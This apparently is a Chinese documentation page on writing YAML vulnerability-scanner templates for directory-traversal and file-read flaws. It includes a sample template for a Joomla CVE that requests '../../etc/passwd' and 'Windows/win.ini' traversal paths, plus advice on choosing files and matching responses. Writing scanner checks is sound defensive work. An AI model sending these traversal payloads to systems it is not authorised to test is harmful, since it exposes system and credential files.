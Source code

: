 ```yaml
---
title: '目录穿越/任意文件读取'
---
```


```yaml
name: poc-yaml-joomla-cve-2021-28377-fileread
manual: true
transport: http
rules:
    r0:
        request:
            cache: true
            method: GET
            path: /index.php?f=../../../../../../../etc/passwd
        expression: response.status == 200 && "root:.*?:[0-9]*:[0-9]*:".bmatches(response.body) && response.body_string.contains("xxxxx")
    r1:
        request:
            cache: true
            method: GET
            path: /index.php?f=../../../../../../../Windows/win.ini
        expression: response.status == 200 && response.body.bcontains(b"for 16-bit app support") && response.body_string.contains("xxxxx")
expression: r0() || r1()
detail:
    author: Chaitin
    links:
        - http://example.com
```

在这类漏洞中，必然至少有一个rule会去访问我们所需要读取的文件，那么

- 对于`读取文件`的rule中
    1. 关于读取的文件
        - 需要按照漏洞的利用方式去读取相关的文件
        - 如果目标系统中存在着某些通用的配置文件，那么首先推荐去读取这些web系统内的文件，尽可能地减少发包量，例如可以读取web.config等的文件
        - 其次我们再去考虑系统中的文件，这部分内容建议参考现在我们给出的poc模版相关内容。同时需要注意的是，读取系统文件时，我们需要充分考虑目标web系统能够被架设在哪些系统上，对于可行的系统都要写出相应的rule去进行匹配
    2. 关于匹配的内容
        - 这部分直接依据所读取的文件写出对应的匹配语句即可。但是需要注意的是，除了固有文件内容的匹配之外，**推荐匹配页面中的其他内容，以防误报**，如果只返回了泄露的文件内容，可以考虑增加其他特征（规则）来辅助匹配。
    3. 补充说明
       - 读取系统文件时，考虑到信息泄露的可能性，比如你的读取的response会记录在某个可以被访问的日志文件中，就会有一定的损害，所以尽量读取一些不会暴露信息的文件，比如`/etc/resolv.conf`等，实在找不到，再选择`/etc/passwd`

其他rule的内容需要按照漏洞的具体内容按需编写

## 模板

[目录穿越/文件读取](/plugins/practice/poc/Template#file-read)

